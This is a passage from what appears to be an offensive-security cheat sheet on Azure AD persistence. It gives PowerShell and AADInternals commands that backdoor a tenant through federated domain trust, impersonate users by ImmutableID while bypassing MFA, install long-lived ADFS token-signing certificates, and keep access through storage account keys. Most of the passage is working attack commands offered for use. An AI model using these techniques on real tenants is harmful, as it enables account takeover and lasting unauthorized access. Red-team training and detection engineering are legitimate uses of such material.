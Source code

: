 #### Authenticate as service principal
```
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant <Tenant ID> -ServicePrincipal
```

## Federation
### Creating a trusted domain
If we have GA privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated and configure the domain to trust a specific certificate (any.sts in the below command) and issuer.

#### Add a domain with AADInternal
```
Import-Module .\AADInternals.psd1
ConvertTo-AADIntBackdoor -DomainName <DOMAIN>
```

#### Get immutableID of the user that we want to impersonate. Using Msol module
```
Get-MsolUser | select userPrincipalName,ImmutableID
```

#### Access any cloud app as the user
```
Open-AADIntOffice365Portal -ImmutableID <ID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

### Token Signing Certificate
- With DA privileges on on-prem AD, it is possible to create and import new Token signing and Token Decrypt certificates that have a very long validity. 

#### Create new certs, add them to ADFS, Disable auto reollver and restart the service
```
Import-Module .\AADInternals.psd1
New-AADIntADFSSelfSignedCertificates
```

#### Update the certificate information with AzureAD
```
Update-AADIntADFSFederationSettings -Domain <DOMAIN>
```

## Storage account access keys
- We already know that keys provide root equivalent privileges on an storage account. 
- There are two access keys and they are NOT rotated automatically (unless a key vault is managing the keys). 
- This, of course, provides neat persistent access to the storage account.
- We can also generate SAS URL (including offline minting) using the access keys. 
